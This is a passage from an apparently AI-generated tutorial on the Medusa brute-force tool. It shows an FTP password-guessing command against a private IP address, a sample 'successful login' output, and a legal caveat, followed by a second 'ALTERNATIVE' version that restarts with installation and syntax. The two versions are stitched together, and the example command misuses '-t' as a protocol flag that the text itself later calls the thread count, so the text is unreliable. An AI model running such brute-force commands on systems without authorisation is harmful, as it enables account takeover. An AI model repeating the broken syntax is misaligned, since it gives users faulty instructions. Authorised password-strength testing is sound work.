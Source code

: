 #### 3. Brute-forcing FTP with Username and Password Lists

```bash
medusa -h 192.168.1.100 -t ftp -U /path/to/usernames.txt -P /path/to/passwords.txt
```

- **-U /path/to/usernames.txt**: Path to a file containing usernames.
- **-P /path/to/passwords.txt**: Path to a file containing passwords.

**Expected Output:**

```
[+] Medusa v2.2.1 [http://www.foofus.net] starting at 2023-10-01 12:56:12
[+] Target: 192.168.1.100
[+] Protocol: FTP
[+] Credentials: ftpuser / ftppass
[+] Successfully logged in as ftpuser with ftppass.
```

### Important Considerations

- **Legal Use**: Always ensure you have permission to test the systems you are targeting. Unauthorized access is illegal and unethical.
- **Performance**: Medusa can run multiple threads in parallel, which speeds up the cracking process. Use the `-t` option to control the number of threads.

### Conclusion

Medusa is a powerful tool for conducting brute-force attacks on various services. By understanding its syntax and options, you can effectively test the strength of passwords on your network. Always use Medusa responsibly and within the bounds of the law.
                            ALTERNATIVE
Medusa is another powerful password-cracking tool available in Kali Linux, designed for performing brute-force attacks on various protocols. Here’s how to use it, along with examples and expected output.

### Installation

Medusa is usually pre-installed on Kali Linux. To check if it's installed, run:

```bash
which medusa
```

If it's not installed, you can install it using:

```bash
sudo apt install medusa
```

### Basic Syntax

The basic syntax for using Medusa is:

```bash
medusa -h [target] -u [username] -P [password_file] -M [module]
```
